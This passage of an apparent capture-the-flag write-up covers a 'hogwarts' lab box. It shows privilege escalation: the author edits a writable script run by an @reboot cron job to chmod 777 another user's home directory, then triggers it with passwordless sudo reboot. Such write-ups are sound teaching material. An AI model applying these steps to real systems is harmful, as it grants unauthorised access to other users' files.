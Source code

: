 We do a `cat /etc/crontab` to see the cron jobs.

```bash
@reboot ron bash /home/hagrid/hut.sh
```

We see that the `hut.sh` file is executed at reboot. We can modify the file to execute a chmod 777 on the `/home/ron` directory.

```bash
nano hut.sh

chmod 777 /home/ron
```

But we cant execute the file. We can try `sudo -l` to see if we can execute the file as root.

```bash
sudo -l

User hagrid may run the following commands on hogwarts:
    (root) NOPASSWD: /sbin/reboot
```

We can execute the file as root. We can modify the file to execute a chmod 777 on the `/home/ron` directory.

```bash
sudo -u root /sbin/reboot
```

We are disconnected from the SSH server. We have to wait for the machine to reboot.

After the machine reboots, we can connect to the SSH server again with hagrid credentials.

We do a `cd /home/ron` to go to the `/home/ron` directory.

```bash
cd /home/ron
```

We do a `ls -la` to see the files in the directory.

```bash
ls -la

total 24
drwxrwxrwx 2 ron  ron  4096 Jan 23  2022 .
drwxr-xr-x 7 root root 4096 Jan 24  2022 ..
lrwxrwxrwx 1 root root    9 Jul  3  2020 .bash_history -> /dev/null
-rw-r--r-- 1 ron  ron   220 Jul  2  2020 .bash_logout
-rw-r--r-- 1 ron  ron  3771 Jul  2  2020 .bashrc
-rw-r--r-- 1 ron  ron   807 Jul  2  2020 .profile
-rw-r--r-- 1 root root 1807 Jan 23  2022 dumbledore.txt
````

We found a file named `dumbledore.txt`. We can do a `cat` on the file.

```bash
cat dumbledore.txt

e1f22cea2a1c41f047b36b505a6aede84a848209c69505ac17ffdaebd7ba63c98e69f68f755134d7b94d47d0c86c1aea72f39fa4e8
...
```
